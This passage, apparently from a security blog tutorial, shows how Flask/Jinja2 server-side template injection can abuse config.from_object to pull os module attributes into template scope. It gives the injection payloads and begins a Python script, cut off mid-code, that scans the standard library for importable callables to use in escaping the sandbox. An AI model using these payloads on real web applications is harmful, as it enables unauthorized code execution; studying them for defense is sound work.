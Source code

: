 The `from_object` method then adds all attributes of the newly loaded module whose variable name is all uppercase to the `config` object. The interesting thing about this is that attributes added to the `config` object maintain their type, which means functions added to the `config` object can be called from the template context via the `config` object. To demonstrate this, inject `{{ config.items() }}` into the SSTI vulnerability and note the current configuration entries.

[![](/static/images/posts/ssti_flask_5.png)](/static/images/posts/ssti_flask_5.png)

Then inject `{{ config.from_object('os') }}`. This will add to the `config` object all attributes of the `os` library whose variable names are all uppercase. Inject `{{ config.items() }}` again and notice the new configuration items. Also notice the types of these configuration items.

[![](/static/images/posts/ssti_flask_6.png)](/static/images/posts/ssti_flask_6.png)

Any callable items added to the `config` object can now be called through the SSTI vulnerability. The next step is finding functionality within the available importable modules that can be manipulated to break out of the template sandbox.

The following script replicates the behavior of `from_object` and `import_string` and analyzes the entire Python Standard Library for importable items.

```python
#!/usr/bin/env python

from stdlib_list import stdlib_list
import argparse
import sys

def import_string(import_name, silent=True):
    import_name = str(import_name).replace(':', '.')
    try:
        try:
            __import__(import_name)
        except ImportError:
            if '.' not in import_name:
                raise
        else:
            return sys.modules[import_name]

        module_name, obj_name = import_name.rsplit('.', 1)
        try:
            module = __import__(module_name, None, None, [obj_name])
        except ImportError:
            # support importing modules not yet set up by the parent module
            # (or package for that matter)
            module = import_string(module_name)

        try:
            return getattr(module, obj_name)
        except AttributeError as e:
            raise ImportError(e)

    except ImportError as e:
        if not silent:
            raise

class ScanManager(object):

    def __init__(self, version='2.6'):
        self.libs = stdlib_list(version)

    def from_object(self, obj):
        obj = import_string(obj)
        config = {}
        for key in dir(obj):
            if key.isupper():
```